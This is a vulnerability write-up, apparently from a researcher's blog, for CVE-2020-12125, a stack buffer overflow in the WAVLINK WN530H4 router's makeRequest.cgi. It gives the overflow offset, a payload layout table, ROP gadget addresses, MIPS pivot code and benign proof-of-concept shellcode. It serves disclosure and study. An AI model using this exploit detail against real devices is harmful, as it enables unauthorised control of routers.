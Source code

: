 ```yaml
---
year: 2020
cveid: CVE-2020-12125
product: "WAVLINK WN530H4"
vulnerability: "Buffer Overflow"
publish: true
category: bugs
layout: bug-report
---
```


This vulnerability is a Buffer Overflow vulnerability in the WAVLINK WN530H4 router.

There is a buffer overflow vulnerability in <kbd>/cgi-bin/makeRequest.cgi</kbd>. The overflow occurs in the main function, where it reads the <kbd>CONTENT_LENGTH</kbd> environmental variable that comes from a POST request in the browser. There is an <kbd>fgets</kbd> call at <kbd>0x406888</kbd> that reads an arbitrarily long string of size <kbd>CONTENT_LENGTH</kbd> into a fixed buffer on the stack of size 512.

We can replicate this bug in GDB for testing purposes. As seen, the instruction pointer on the stack is overwritten with a series of "A" characters (ascii <kbd>0x41</kbd>) and the CPU attempts to jump to this address after popping it off the stack.

![Overrun Buffer]({{"/assets/img/posts/2020-05-01-CVE-2020-12125-img-1.png" | relative_url}})

Armed with this knowledge, we can formulate our payload. Because ASLR is enabled for libraries and for the stack, we must utilize ROP to jump to our payload. Fortunately for us, DEP is not enabled, making the stack executable.

Return Oriented Programming (ROP) is a technique in which addresses in the program’s instruction memory are utilized to perform an attack. This is useful for when ASLR only randomizes stack space and not instruction space, like in this case. ROP is generally more useful with larger binaries, which is the case for the makeRequest.cgi binary.

In this case, we will use ROP to jump to the stack. To do this, we need to find special sections of code, called “gadgets” that perform useful tasks. I am trying to find a sequence of gadgets that allow us to jump to a particular stack location. Fortunately, I found a sequence of gadgets that increment the stack pointer, and then jump to a location on the stack that we control.

To craft this attack, we must place addresses on the stack in specific locations. Fortunately, we can predict what the stack will look like. We know that 564 characters can overflow the buffer before the first return pointer is overwritten. Additionally, the stack pointer will point to the first four bytes after the return address is overwritten. Essentially, we will have to craft an attack that looks like the table below.

Please note that this payload is sloppy, doesn't land 100% of the time, and can certainly be improved. This is mainly for proof of concept demonstration.

| Location         | Size        | Description                      | Data                       |
|------------------|-------------|----------------------------------|----------------------------|
| 0                | 0x11A bytes | Payload                          | ...                        |
| 0x11A            | 0x11A bytes | Data and padding                 | hacked\x0a                 |
| 0x234            | 0x04 bytes  | The address of the first gadget  | 0x4050d8                   |
| 0x238 ($sp)      | 0x94 bytes  | Aligning the next address        | “A”*0x94                   |
| 0x2CC ($sp+0x94) | 0x04 bytes  | The address of the second gadget | 0x40214c                   |
| 0x2D0 ($sp+0x98) | 0x20 bytes  | Aligning the next address        | “A”*0x20                   |
| 0x2F0 ($sp+0xB8) | 0x18 bytes  | We can only run 6 instructions.  | ...                        |
| 0x308 ($sp+0xD0) | 0x04 bytes  | The stack address to jump to     | (predetermined at runtime) |

As noted in the table, there are two ROP gadgets. The first is at address <kbd>0x4050d8</kbd> and the second is at <kbd>0x40214c</kbd>

First gadget at <kbd>0x4050d8</kbd>

<pre>
<code>
lw      $ra, 0x94($sp)
lw      $s2, 0x90($sp)
lw      $s1, 0x8C($sp)
lw      $s0, 0x88($sp)
jr      $ra
addiu   $sp, $sp, 0x98
</code>
</pre>

Second gadget at <kbd>0x40214c</kbd>

<pre>
<code>
lw      $ra, 0x38($sp)
lw      $s3, 0x34($sp)
lw      $s2, 0x30($sp)
lw      $s1, 0x2C($sp)
lw      $s0, 0x28($sp)
jr      $ra
addiu   $sp, $sp, 0x40
</code>
</pre>

Next, we have to come up with an adequate payload. At <kbd>0x2F0</kbd>, we will construct a payload that jumps to a bigger area on the stack that we control, shown below.

<pre>
<code>
addiu   $ra,$ra,-752
jr      $ra
</code>
</pre>

At this point, the CPU jumped to the location of our real payload. The attack payload simply writes 7 bytes <kbd>hacked\a</kbd> to standard out (fd 1). It additionally allows for up to 1000 bytes to be written to standard out, allowing the attacker to increase their payload size. The code for this attack is seen below.

<pre>
<code>
addiu   $sp, $ra, 0x11A
li      $v0, 4004
li      $a0, 1
move    $a1, $sp
li      $a2, 1000
syscall                 ; write(1, $sp, 1000)
nop
nop
li      $v0, 4001
xor     $a0, $a0, $a0
syscall                 ; exit(0)
nop
nop
</code>
</pre>

After compiling the payload, we can submit it as data to the web-server under the <kbd>makeRequest.cgi</kbd> endpoint. Unfortunately, the code does not execute with certainty 100% of the time. I believe this is due to the stack address that the program attempts to jump to; it may not be completely deterministic. However, we can execute the payload more than once if we encapsulate it in a script.

Below we show the attack in action. Of course, a nefarious user could change the shellcode to be even worse.

![Attack]({{"/assets/img/posts/2020-05-01-CVE-2020-12125-img-2.png" | relative_url}})

The final script is located on my [GitHub](https://github.com/cernec1999/WAVLINK-Exploits/blob/master/overflow.py).

For more information and vulnerability analysis, please see [my report on the WAVLINK WN530H4]({{"/assets/reports/report_wavlink.pdf" | relative_url}}).
